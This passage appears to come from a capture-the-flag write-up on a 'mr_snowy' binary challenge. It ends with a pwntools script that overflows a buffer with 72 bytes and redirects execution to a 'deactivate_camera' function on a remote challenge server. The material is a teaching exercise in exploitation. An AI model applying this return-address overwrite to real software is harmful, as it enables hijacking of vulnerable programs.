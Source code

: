 Now we need to do is just run the program to make sure it works on local first!

![](img/mr_snowyEasier-local.png)

It works! To access the server remotely, we need to add remote to server using host and port.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
deactivate_camera = 0x0000000000401165

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

payload = b"A"*offset
payload += p64(deactivate_camera)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())

s.close()
```